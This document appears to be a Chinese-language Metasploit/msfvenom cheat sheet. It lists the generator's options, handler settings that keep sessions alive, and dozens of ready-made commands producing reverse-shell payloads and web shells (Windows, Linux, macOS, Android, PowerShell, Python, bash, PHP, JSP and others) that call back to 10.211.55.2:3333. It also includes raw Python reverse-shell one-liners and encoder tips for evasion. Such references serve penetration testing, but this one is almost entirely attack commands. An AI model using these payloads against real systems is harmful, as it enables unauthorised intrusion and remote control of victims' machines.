

[toc]

# 常规参数

所有参数


```
-p, –payload < payload> 指定需要使用的payload(攻击荷载)。也可以使用自定义payload,几乎是支持全平台的
-l, –list [module_type] 列出指定模块的所有可用资源. 模块类型包括: payloads, encoders, nops, platforms, archs, encrypt, formats, all

-n, –nopsled < length> 为payload预先指定一个NOP滑动长度
-f, –format < format> 指定输出格式 (使用 –help-formats 来获取msf支持的输出格式列表)
-e, –encoder [encoder] 指定需要使用的encoder（编码器）,指定需要使用的编码，如果既没用-e选项也没用-b选项，则输出raw payload
-a, –arch < architecture> 指定payload的目标架构，例如x86 | x64 | x86_64
–platform < platform> 指定payload的目标平台
-s, –space < length> 设定有效攻击荷载的最大长度，就是文件大小
-b, –bad-chars < list> 设定规避字符集，指定需要过滤的坏字符例如：不使用 '\x0f'、'\x00';
-i, –iterations < count> 指定payload的编码次数
-c, –add-code < path> 指定一个附加的win32 shellcode文件
-x, –template < path> 指定一个自定义的可执行文件作为模板,并将payload嵌入其中
-k, –keep 保护模板程序的动作，注入的payload作为一个新的进程运行
–payload-options 列举payload的标准选项
-o, –out < path> 指定创建好的payload的存放位置
-v, –var-name < name> 指定一个自定义的变量，以确定输出格式
–shellest 最小化生成payload
-h, –help 查看帮助选项
–help-formats 查看msf支持的输出格式列表
```


查看所有payload：`msfvenom --list payloads`(其他的模块也一样)

查看所有编码器：`msfvenom --list encoders`



其中有两个excellent，`cmd/powershell_base64`和`x86/shikata_ga_nai`

 查看某个payload支持那些平台、选项等(使用windows/meterpreter/reverse_tcp举例)：

`msfvenom -p windows/meterpreter/reverse_tcp --list-options`

# 重要的监听参数

## 防止假session

在实战中，经常会遇到假session或者刚连接就断开的情况，这里补充一些监听参数，防止假死与假session

```shell
msf exploit(multi/handler) > set ExitOnSession false   //可以在接收到seesion后继续监听端口，保持侦听。
```

## 防止session意外退出

```sh
msf5 exploit(multi/handler) > set SessionCommunicationTimeout 0  
//默认情况下，如果一个会话将在5分钟（300秒）没有任何活动，那么它会被杀死,为防止此情况可将此项修改为0
msf5 exploit(multi/handler) > set SessionExpirationTimeout 0 
//默认情况下，一个星期（604800秒）后，会话将被强制关闭,修改为0可永久不会被关闭
```

## handler后台持续监听

```
msf exploit(multi/handler) > exploit -j -z
```

使用exploit -j -z可在后台持续监听,-j为后台任务，-z为成功后不主动发送stage(感谢Green-m大佬指正)，使用Jobs命令查看和管理后台任务。jobs -K可结束所有任务。

还有种比较快捷的建立监听的方式，在msf下直接执行：

```
msf5 > handler -H 10.211.55.2 -P 3333 -p windows/meterpreter/reverse_tcp
```

# 一些payload

## windows

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Windows -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f exe > shell.exe
```

## linux

```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Linux -f elf > shell.elf
```

## mac

```sh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform osx -f macho > shell.macho
```

## Android

```sh
msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.apk
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 R > test.apk
```


## Powershell

```sh
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -e cmd/powershell_base64 -i 3 -f raw -o shell.ps1
```


## shellcode

### linux

```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Linux -f c
```

### Windows

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Windows -f c
```

### Mac

```sh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform osx -f c
```

## 脚本

### python反弹shell

```sh
msfvenom -p cmd/unix/reverse_python LHOST=10.211.55.2 LPORT=3333 -f raw > shell.py
msfvenom -a python -p python/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.py
```

### python正向shell

```sh
python/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.211.55.2",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
python/python3 -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(("10.211.55.2",3333))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
```

### bash

```sh
msfvenom -p cmd/unix/reverse_bash LHOST=10.211.55.2 LPORT=3333 -f raw > shell.sh
```

### perl

```sh
msfvenom -p cmd/unix/reverse_perl LHOST=10.211.55.2 LPORT=3333 -f raw > shell.pl
```

### Lua

```sh
msfvenom -p cmd/unix/reverse_lua LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.lua
```

### Ruby

```sh
msfvenom -p ruby/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.rb
```


## Web

### PHP

```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### Aspx

```sh
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f aspx -o shell.aspx
```

### asp

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f asp > shell.asp
```

### Jsp

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.jsp
```

### war

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f war > shell.war
```

### nodejs

```sh
msfvenom -p nodejs/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw -o shell.js
```


弹计算器：

```sh
msfvenom --payload windows/exec cmd="calc" --format exe --out a.exe --arch x86 --platform windows --bad "\x00" --smallest
msfvenom --payload windows/exec cmd="calc" --format c --arch x86 --platform windows --bad "\x00" 
```


来源

>   https://www.yuque.com/tidesec/bypassav/e5bb94c4b1a643fa8d1ce5d505d12c84
>
>   https://buaq.net/go-954.html
>
>   https://wohin.me/0dayan-quan-chapter-4-yong-metasploitkai-fa-exploit/#-msfvenom-shellcode